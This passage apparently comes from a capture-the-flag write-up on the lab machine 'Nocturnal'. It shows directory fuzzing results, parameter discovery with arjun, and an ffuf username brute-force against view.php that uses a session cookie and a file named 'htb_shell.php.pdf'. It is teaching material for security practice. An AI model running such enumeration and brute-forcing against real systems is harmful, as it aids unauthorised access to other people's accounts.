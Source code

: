 ```
login.php               [Status: 200, Size: 644, Words: 126, Lines: 22, Duration: 105ms]
index.php               [Status: 200, Size: 1524, Words: 272, Lines: 30, Duration: 111ms]
register.php            [Status: 200, Size: 649, Words: 126, Lines: 22, Duration: 105ms]
view.php                [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 109ms]
uploads                 [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 106ms]
uploads.xml             [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 106ms]
uploads.html            [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 106ms]
admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 105ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 104ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 106ms]
```

Got a few interesting directories, for example, the `view.php` seems weird, if we check it up, we find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414133917.png)

It means we need a parameter, let's fuzz for parameters, I will use `arjun` for this, we can install it using:

```
pip3 install arjun
```

```
arjun -u http://nocturnal.htb/view.php
    _
   /_| _ '
  (  |/ /(//) v2.2.7
      _/

[*] Scanning 0/1: http://nocturnal.htb/view.php
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 2 parameters from response for testing: password, username
[*] Logicforcing the URL endpoint
[!] No parameters were discovered
```

We found some parameters, after fuzzing again, we can find we got a parameter named `file=`, so, we can try fuzzing for usernames based on these two parameters, for this, let's create a test account and upload a simple file, I uploaded a file called `legitimate.pdf` (I did all this before the fuzzing, since I was testing for LFI, we need the cookie in order to fuzz), now, let's fuzz and find some hidden usernames:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -u "http://nocturnal.htb/view.php?username=FUZZ&file=htb_shell.php.pdf" -H "Cookie: PHPSESSID=j23pun9jaj6197kcesh6efpoj6" -t 50 -fc 403 -ac -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=htb_shell.php.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
 :: Header           : Cookie: PHPSESSID=j23pun9jaj6197kcesh6efpoj6
 :: Follow redirects : false
 :: Calibration      : true
```